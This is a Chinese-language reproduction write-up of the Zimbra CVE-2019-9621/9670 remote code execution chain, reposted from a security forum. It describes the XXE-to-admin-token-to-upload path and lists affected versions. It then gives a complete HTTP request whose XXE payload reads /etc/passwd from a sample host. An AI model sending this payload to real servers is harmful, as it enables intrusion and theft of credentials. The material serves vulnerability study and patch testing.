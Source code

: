 # （CVE-2019-9621）Zimbra 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3310](https://www.zhihuifly.com/t/topic/3310)

# （CVE-2019-9621）（CVE-2019-9670）Zimbra 远程代码执行漏洞

## 一、漏洞简介

当 Zimbra 存在像任意文件读取、XXE（xml外部实体注入）这种漏洞时，攻击者可以利用此漏洞读取 localconfig.xml配置文件，获取到 zimbra admin ldap password，并通过 7071 admin 端口进行 SOAP AuthRequest 认证，得到 admin authtoken漏洞是利用XXE和ProxyServlet SSRF 漏洞拿到 admin authtoken 后，通过文件上传在服务端执行任意代码，威胁程度极高。当Zimbra服务端打来Memcached缓存服务是，可以利用SSRF攻击进行反序列化执行远程代码。不过由于Zimbra在单服务器安装中尽管Memcached虽然启动但是并没有进行使用，所以其攻击场景受到限制。

## 二、漏洞影响

ZimbraCollaboration Server 8.8.11 之前的版本都受到影响。具体来说：

*   Zimbra < 8.7.11 版本中，攻击者可以在无需登录的情况下，实现远程代码执行。
*   Zimbra < 8.8.11 版本中，在服务端使用 Memcached 做缓存的情况下，经过登录认证后的攻击者可以实现远程代码执行。

## 三、复现过程

### 第一步：检测是否存在xxe漏洞

```
POST /Autodiscover/Autodiscover.xml HTTP/1.1  
Host: www.0-sec.org  
User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
Accept-Encoding: gzip, deflate  
Referer: https://mail.****.com/zimbra/  
Content-Type: application/soap+xml  
Content-Length: 436  
Connection: close  
Cookie: ZM_TEST=true  
Upgrade-Insecure-Requests: 1 `<!DOCTYPE xxe [

<!ELEMENT name ANY >

<!ENTITY xxe SYSTEM “file:///etc/passwd” >]>

<Autodiscover xmlns=“[http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a](http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a)”>

<Request>

<EMailAddress>aaaaa</EMailAddress>

<AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>

</Request>

</Autodiscover>` 
```
